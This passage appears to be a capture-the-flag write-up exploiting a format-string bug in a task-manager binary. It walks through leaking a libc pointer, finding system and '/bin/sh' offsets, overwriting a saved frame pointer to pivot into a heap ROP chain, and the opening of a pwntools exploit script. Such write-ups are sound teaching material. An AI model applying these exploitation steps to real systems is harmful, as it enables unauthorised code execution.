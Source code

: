5. To find out what version of libc is used, we use the libc return to main address leaked out `f7de8fb9` and disassemble that segment

```bash
gdb➤  disas 0xf7de8fb9
Dump of assembler code for function __libc_start_main:
   0xf7de8ec0 <+0>:	endbr32 
   0xf7de8ec4 <+4>:	call   0xf7f112ad
   0xf7de8ec9 <+9>:	add    eax,0x1ca137
   0xf7de8ece <+14>:	push   ebp
   0xf7de8ecf <+15>:	xor    edx,edx
   0xf7de8ed1 <+17>:	push   edi
   0xf7de8ed2 <+18>:	push   esi
   0xf7de8ed3 <+19>:	push   ebx
   0xf7de8ed4 <+20>:	mov    edi,eax
   0xf7de8ed6 <+22>:	sub    esp,0x4c
```
The `__libc_start_main` function starts at address `f7de8ec0`, and using the offset `ec0` on a [https://libc.blukat.me/](libc database) and trying out the first version on the list, we get the offsets as

```bash
__libc_start_main = 0x01eec0
system = 0x045220
str_bin_sh = 0x18d42d
```

6. To achieve EIP control, we can see that one of the leaked addresses `804952c` is the return address of `show_tasks` to `display_tasks` which is the function that calls it. Therefore, the address that comes before it is the saved frame pointer of the function. If we overwrite the saved frame pointer with a value, we have arbitrary control over the EIP. Thus, we can make the EIP point to the first dword in the ROP chain, and the ESP to point to the second dword.

Given that we cannot control the actual stack we have to position our ROP chain somewhere where we can make it act like a stack. As the task description is allocated on the heap and we have control over the allocation size, we can allocate a sufficient number of bytes and place the ROP chain there.

Hence using the %Ax%Bx%6$n template, we can exploit this vulnerability.

7. In summary, the approach is
- Create a task with a description to leak a pointer into libc
- Determine the addresses of the ROP chain elements
- Create a second task with a description that starts with the ROP chain and ends with a format string pointer leak to get the address of the ROP chain
- Create a third task with a description to overwite the saved frame pointer with the address of the ROP chain
- Trigger the exploit by making the main routine return

Now contructing the exploit, as `exploit.py`,
```python
#!/usr/bin/env python

import re
from pwn import *
from struct import pack
from math import floor

def do_infoleak(h, pointer_offset): 
  name = "leak"
  date = "1337"
  desc_len = "8192"
  desc = "%35$x"

  # Create new contact
  h.sendline("1")
  msg = h.recvuntil('Enter name: ')
  print msg
  h.sendline(name)
```